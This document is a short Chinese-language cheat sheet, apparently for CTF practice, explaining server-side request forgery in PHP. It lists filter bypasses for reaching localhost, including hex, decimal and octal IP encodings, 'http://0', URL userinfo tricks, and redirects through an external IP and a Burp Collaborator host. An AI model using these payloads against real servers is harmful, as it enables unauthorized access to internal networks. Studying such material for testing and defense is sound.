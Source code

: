 # SSRF

SSRF (Server-Side Request Forgery，服务器端请求伪造) 是一种由攻击者构造请求，由服务端发起请求的安全漏洞，一般情况下，SSRF攻击的目标是外网无法访问的内网系统，也正因为请求是由服务端发起的，所以服务端能请求到与自身相连而与外网隔绝的内部系统。也就是说可以利用一个网络请求的服务，当作跳板进行攻击。


<br>


### PHP
在PHP中的curl()，file_get_contents()，fsockopen()等函数是几个主要产生ssrf漏洞的函数
***
* curl()

形如:

curl(url)

***

* file_get_contents()

形如:

file_get_contents($_POST['url']);

***

### 绕过

各种进制的内网地址

````
#默认

http://127.0.0.1
#16进制

http://0x7F000001
#10进制

((127*256+0)*256+0)*256+1//计算过程
http://2130706433
#8进制

http://0177.0000.0000.0001
````

<br>

302跳转绕过
````
http://spoofed.burpcollaborator.net/flag.php
````

<br>

短绕过
````
linux中 0 指向本机地址

payload： url=http://0/flag.php
````

<br>

重定向（如果代码只能读取远程url，可以用这个方法）
````
url=http://106.53.207.220/SSRFDNS.php
````

<br>

URL构成绕过
````
在 URL 构成中，username 是指用于身份验证的用户名。例如，在 HTTP Basic 认证中，可以使用类似以下的 URL 来进行身份验证：

http://user:password@example.com/

可以用来让url忽略一些重要部分比如url=http://ctf.:passwd@127.0.0.1/flag.php#show等效于127.0.0.1/flag.php
````
